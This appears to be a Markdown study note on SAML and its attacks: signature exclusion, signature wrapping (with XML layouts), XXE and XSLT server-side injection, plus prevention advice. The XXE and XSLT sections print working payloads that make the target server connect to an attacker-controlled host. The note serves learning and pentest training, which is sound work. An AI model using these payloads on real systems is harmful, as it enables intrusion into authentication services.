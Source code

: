 # SAML
## SAML Components
- **Identity Provider (IdP)**: The entity that authenticates users. The IdP provides identity information to other components and issues SAML assertions
- **Service Provider (SP)**: The entity that provides a service or a resource to the user. It relies on SAML assertions provided by the IdP
- **SAML Assertions**: XML-based data that contains information about a user's authentication and authorization status

## SAML Flow
1. The user accesses a resource provided by the SP
2. Since the user is not authenticated, the SP initiates authentication by redirecting the user to the IdP with a SAML request
3. The user authenticates with the IdP
4. The IdP generates a SAML assertion containing the user's information, digitally signs the SAML assertion, and sends it in the HTTP response to the browser. The browser sends the SAML assertion to the SP
5. The SP verifies the SAML assertion
6. The user requests the resource
7. The SP provides the resource
![saml](./images/saml.png)

## Attacks
### Signature Exclusion Attack
Remove signatures from all assertions or from special one

### Signature Wrapping Attack

Signature Wrapping is a class of attack against SAML implementations that intends to create a discrepancy between the signature verification logic and the logic extracting the authentication information from the SAML assertion. This is achieved by injecting XML elements into the SAML response that do not invalidate the signature but potentially confuse the application, resulting in the application using the injected and unsigned authentication information instead of the signed authentication information.
```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
	    [...]
	    <ds:Signature>
	        <ds:SignedInfo>
	            [...]
	            <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
                [...]
	            </ds:Reference>
	        </ds:SignedInfo>
	    </ds:Signature>
	    [...]
	 </saml:Assertion>   
</samlp:Response>
```

As we can see, the `ds:Signature` node contains a `ds:Reference` node containing a URI attribute with the value `#_3227482244c22633671f7e3df3ee1a24a51a53c013`. This indicates that the signature was computed over the XML node with the ID `_3227482244c22633671f7e3df3ee1a24a51a53c013`.

Furthermore, there are different locations where the signature can be located:

- `enveloped` signatures are descendants of the signed resource
- `enveloping` signatures are predecessors of the signed resource
- `detached` signatures are neither descendants nor predecessors of the signed resource

#### enveloping signature

```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<ds:Signature>
		<ds:SignedInfo>
		    [...]
		    <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
	            [...]
		    </ds:Reference>
	    </ds:SignedInfo>
		<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
		    [...]    
		</saml:Assertion> 
		[...]
	</ds:Signature>
</samlp:Response>
```

#### detached signature

```XML
<samlp:Response ID="_941d62a2c2213add334c8e31ea8c11e3d177eba142" [...] >
	[...]
	<saml:Assertion ID="_3227482244c22633671f7e3df3ee1a24a51a53c013" [...] >
	    [...]
	 </saml:Assertion> 
	 <ds:Signature>
	    <ds:SignedInfo>
		    [...]
		    <ds:Reference URI="#_3227482244c22633671f7e3df3ee1a24a51a53c013">
                [...]
	        </ds:Reference>
	    </ds:SignedInfo>
	</ds:Signature>
	[...]
</samlp:Response>
```

The signature wrapping attack is successful if the following holds:

The signature verification logic searches the SAML response for the ds:Signature node and the element referenced in the ds:Reference element. The signature is then verified, and no additional checks are performed (such as a check of the number of SAML assertions present in the SAML response)
The application logic retrieves authentication information from the first SAML assertion it finds within the SAML response

### XXE

To inject the payload, we need to obtain the XML representation of the SAML response, just like we did in the previous sections. We can then inject the payload at the beginning of the SAML response, resulting in the following structure:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
<samlp:Response>
	[...]
</samlp:Response>
```

Since the vulnerability typically does not display the resulting data to us, we are dealing with a blind vulnerability, which makes successful exploitation significantly more complex.

### XSLT Server-side Injection

Similarly to XXE, a misconfigured XML parser might also be vulnerable to XSLT server-side injection, depending on how the XML parser handles the SAML response data. Like before, we will try to inject a payload, resulting in a connection to a server under our control. We can achieve this using an XSLT payload like the following:
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:copy-of select="document('http://172.17.0.1:8000/')"/>
</xsl:template>
</xsl:stylesheet>
```

## Tools
`SAML Raider` is an extension for BurpSuite that we can use to identify and exploit vulnerabilities in SAML implementations.

## Vulnerability Prevention
To prevent vulnerabilities resulting from improper implementation of SAML, it is essential to use an established SAML library to handle any SAML-related operations, such as signature verification and extraction of authentication-related information from SAML assertions. If kept up-to-date, modern SAML libraries will be patched against the vulnerabilities discussed in the previous sections.

